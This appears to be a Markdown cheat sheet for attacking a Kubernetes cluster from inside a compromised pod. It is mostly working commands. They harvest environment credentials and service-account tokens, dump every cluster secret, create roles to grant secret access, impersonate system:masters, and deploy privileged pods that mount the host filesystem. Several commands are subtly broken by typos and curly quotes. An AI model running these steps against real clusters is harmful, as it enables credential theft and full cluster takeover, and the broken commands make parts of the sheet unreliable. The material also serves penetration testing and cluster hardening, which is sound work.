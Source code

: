 ### Inside the pod 
0. are you inside the pod? run:`if [[ -z "$KUBERNETES_SERVICE_HOST" ]];then echo false;else echo true;fi`

1. Execute `env`. What to look for?
- Addresses of other services
- Creds from cloud provider, services, db
- Secrets, logins, passwords of other services and other sensetive info

2. File system 
- Application source code
- Configs with sensitive data
- Mounted directories (`mount |grep overlay`, `df`, )
- Container socket
- Root directory
- Ability to create StaticPod

3. DNS-discovery 
```bash
cat /etc/resolv.conf
env |grep -E '(KUBERNETES|[^_]SERVICE)_PORT=' | sort
```
check kube-apiserver
```bash
curl -k https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}/version
```
- search other services
`dig +short srv any.any.svc.cluster.local`
- To retrieve all services in the cluster namespace:
`dig +noall +answer srv any.any.any.svc.cluster.local |sort -k 8`
- set your rDNS records
`dig +noall +answer 10-0-200-20.prometheus-kube-prometheus-kubelet.kube-system.svc.cluster.local. 10-0-200-20.prometheus-kube-prometheus-kubelet.kube-system.svc.cluster.local. 30 IN A 10.0.200.20` 

4. Service account (ServiceAccount defines Pod capabilities in a cluster)
- /run/secrets/kubernetes.io/serviceaccount
- /var/run/secrets/kubernetes.io/serviceaccount
- /secrets/kubernetes.io/serviceaccount
- `kubectl auth can--i --list`i
- run scripts: `https://github.com/BishopFox/badPods/blob/main/scripts/can-they.sh` to find the token/secret for each pod running on the node and tell you what each token is authorized to do. It can be run from within a pod that has the host's filesystem mounted to /host, or from outside the pod

5. Interaction with kube-api: via `kubectl`, if you have it. If not: 
- take him: `curl -LO https://storage.googleapis.com/kubernetes-release/release/`curl -s https://storage.googleapis.com/kubernetes-release/release/stable.txt`/bin/linux/amd64/kubectl`
- via kube-apiserver: 
```
KUBE_TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token) curl -sSk -H "Authorization: Bearer $KUBE_TOKEN" \
https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_PORT_443_TCP_PORT/api/v1/namespaces/default/pods/$HOSTNAME
```
- via /dev/tcp, /dev/udp (http://rus-linux.net/MyLDP/consol/tcp-udp-socket-bash-shell.html) 

6. Try get all secrets in your context: 
```bash 
kubectl get secrets -A -o yaml
``` 
- example: `kubectl get secret --namespace cattle-system bootstrap-secret -o go-template='{{.data.bootstrapPassword|base64decode}}{{"\n"}}'
- also, if you have access to the JWT token with listing secrets permissions, can use curl to get all secrets:
```bash
curl -k -v -H “Authorization: Bearer <jwt_token>” -H “Content-Type: application/json” https://<master_ip>:6443/api/v1/namespaces/default/secrets | jq -r ‘.items[].data’
```
- if you don't have access to the any JWT-token, try create role and service account, and rolebinding to service account for listing secrets:
```bash 
kubectl create -f - << EOF
kind: Role
apiVersion: rbac.authorization.k8s.io/v1
metadata:
  namespace: default
  name: read-secrets
rules:
- apiGroups: [*]
  resources: ["secrets"]
  verbs: ["list"]
EOF
SERVICE_ACCOUNT_NAME="sa1"
kubectl create sa "$SERVICE_ACCOUNT_NAME"
SERVICE_ACCOUNT_SECRET_NAME=`kubectl get secrets $SERVICE_ACCOUNT_NAME -o json | jq -r '.secrets[].name'`
TOKEN=`kubectl get secrets $SERVICE_ACCOUNT_SECRET_NAME -o json | jq -r '.data.name' | base64 -d`
kubectl create rolebinding read-secrets-binding --role=read-secrets --serviceaccount=default:"$SERVICE_ACCOUNT_NAME"
curl -k -v -H “Authorization: Bearer $TOKEN” -H “Content-Type: application/json” https://<master_ip>:6443/api/v1/namespaces/default/secrets | jq -r ‘.items[].data’
```
- if cluster role have rules that allow it to impersonate groups and users, try to list all secrets using **–as=null –as-group=system:masters** it will be granted full permissions:
```bash
kubectl get secrets --context=$CONTEXT_NAME --as=null –as-group=system:masters
```
7. Check threatening pods-right (.items.rules) and try create (or modified) badPods (https://github.com/BishopFox/badPods) or create all badPods  

example of bad pods yaml
```yaml
spec:
  hostNetwork: true   <-- BAD
  hostPID:true        <-- BAD
  hostIPC:true        <-- BAD
  containers:
  - name: ubuntu-test
    image: ubuntu
    securityContext:
      privileged: true        <-- BAD
    volumeMounts:         
    - mountPath: /host
      name: noderoot
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "while truel do sleep 30; done;" ]
  volumes:
  - name: noderoot
    hostPath:         <-- BAD
      path: /
		
```
8. Check used vulnerable images
- Get used docker-image of all pods in all namespaces:

```bash
kubectl get pods -A -o go-template='{{range .spec.containers}}{{.image}}{{"\n"}}{{end}}' | sort -u >>  images.list
```

- Exec `apt-get update && apt-get install docker-scan-plugin` and scan `docker scan $IMAGE` (or `cat images.list | xargs -P 12 -I %i docker scan %i` )

9. Get all external ports of all services in kubernetes cluster 
```bash
kubectl get svc --all-namespaces -o go-template='{{range .items}}{{range.spec.ports}}{{if .nodePort}}{{.nodePort}}{{"\n"}}{{end}}{{end}}{{end}}'`
```


